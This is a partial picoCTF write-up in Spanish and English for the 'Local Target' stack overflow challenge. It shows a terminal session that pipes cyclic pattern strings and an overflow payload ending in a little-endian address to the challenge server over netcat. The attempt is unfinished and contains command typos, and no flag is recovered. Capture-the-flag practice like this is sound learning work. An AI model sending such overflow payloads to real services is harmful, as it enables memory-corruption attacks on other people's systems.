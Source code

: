 # Local Target
## Descripcipción
Smash the stackCan you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/518/local-target). You can view source [here](https://artifacts.picoctf.net/c/518/local-target.c). And connect with it using:`nc saturn.picoctf.net 63425`
## Pistas
- Do anything you can to change `num`.
- When you change `num`, view the value as hexadecimal.
## Solucion
```
┌──(kali㉿kali)-[~/Documents/binary/local]
└─$ ls -la
total 32
drwxr-xr-x  2 kali kali  4096 May 17 21:08 .
drwxr-xr-x 10 kali kali  4096 May 17 21:07 ..
-rw-r--r--  1 kali kali 17088 May  9 18:19 local-target
-rw-r--r--  1 kali kali   754 May  9 18:19 local-target.c
                                                                           
┌──(kali㉿kali)-[~/Documents/binary/local]
└─$ nc saturn.picoctf.net 63425
Enter a string: sdjhkajshfkjdahfdfajhf ahafklahfd

num is 1801871720
Bye!
                                                                           
┌──(kali㉿kali)-[~/Documents/binary/local]
└─$ nc saturn.picoctf.net 63425
Enter a string: 

num is 64
Bye!
                                                                           
┌──(kali㉿kali)-[~/Documents/binary/local]
└─$ echo'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | nc saturn.picoctf.net 56974
                                                                            
┌──(kali㉿kali)-[~/Documents/binary/local]
└─$ 

                                                                            
┌──(kali㉿kali)-[~/Documents/binary/local]
└─$ 
                                                                            
┌──(kali㉿kali)-[~/Documents/binary/local]
└─$ 


                                                                            
┌──(kali㉿kali)-[~/Documents/binary/local]
└─$ echo'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | nc saturn.picoctf.net 63425
echoaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa: command not found
Enter a string: echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 63425

```
## Bandera
picoCTF{SINRESPUESTA}
## Notas adicionales
## Referencias
